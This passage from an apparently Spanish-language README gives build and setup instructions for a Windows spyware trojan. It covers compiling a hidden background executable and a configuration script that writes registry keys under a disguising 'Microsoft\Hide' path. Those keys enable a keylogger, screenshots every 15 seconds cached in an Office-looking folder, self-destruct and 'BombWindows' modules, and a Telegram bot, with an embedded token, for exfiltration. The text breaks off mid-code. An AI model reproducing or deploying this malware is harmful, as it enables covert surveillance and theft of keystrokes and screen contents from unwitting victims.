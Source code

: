 </details> 

* __Paso 2:__  Convertir *.py a *.exe

    ![](https://imgur.com/1M7P0aW.png)

    <details>
    <summary>Ver más</summary>
    <p>El archivo <code># Create .EXE [SpyTrojan]-[Debug].bat</code> nos dará como resultado un *.exe pero al ejecutar el programa se mostrará la consola, con la finalidad de debuggear el programa</p>
    <p> El archivo <code># Create .EXE [SpyTrojan]-[Release].bat</code> es el software final, está se ejeuctará en segundo plano sin entorno grafico o consola. </p>
    <br>
    <b>El ejecutable resultante se guardará en una carpeta con los nombres <code>[DEBUG]</code>, <code>[RELEASE]</code> según sea el caso.</b>


</details> 

* __Nota:__  Al abrir el *.exe resultante, ésta mandará error lo cuál es normal ya que el software lee información del registro `[REGEDIT]`, información que todavía no se han creado.




## 3. Crear ejecutable del `InfectionFile.py` 

Este Archivo se encargará de escribir en el registro de windows la configuración de nuestro software, 
según estos datos, el software funcionará de una u otra manera. 

* __Paso 1:__  Abrir el archivo `InfectionFile.py` para edidarlo.
    
    <details>
    <summary> Ver código completo</summary>
    
    ````py
    if __name__ == '__main__':
        # Se habilitarán futuras actualizaciones
        AutoDestruction(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\AutoDestruction',
                        active=0,
                        active_now=0,  # ignore, will be used in a future update
                        day=00,
                        year=0000
                        ).set_values()
        BombWindows(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\BombWindows',
                    active=0,
                    active_now=0,   # ignore, will be used in a future update
                    day=00,
                    year=0000
                    ).set_values()
        Keylogger(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\Keylogger',
                active=1,         #Cambie Aquí#
                limit=150         #Cambie Aquí#
                ).set_values()
        Screenshot(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\Screenshot',
                active=1,        #Cambie Aquí#
                intervalSeconds=15,#Cambie Aquí#
                cache_path='C:\\Users\\' + str(os.getlogin()) + r'\AppData\Local\Microsoft\Office\16.0\Floodgate\temp'
                ).set_values()
        TelegramBot(path_registry=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\TelegramBot',
                    id=["-1001322369309"],  #Cambie Aquí#
                    token="1345614169:AAE7O_jRBhIkq_minXh52Ws2SV3wlPfp8QM", #Cambie Aquí#
                    ).set_values()
        trojan = Trojan(path_registry=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide',
                        debug=0,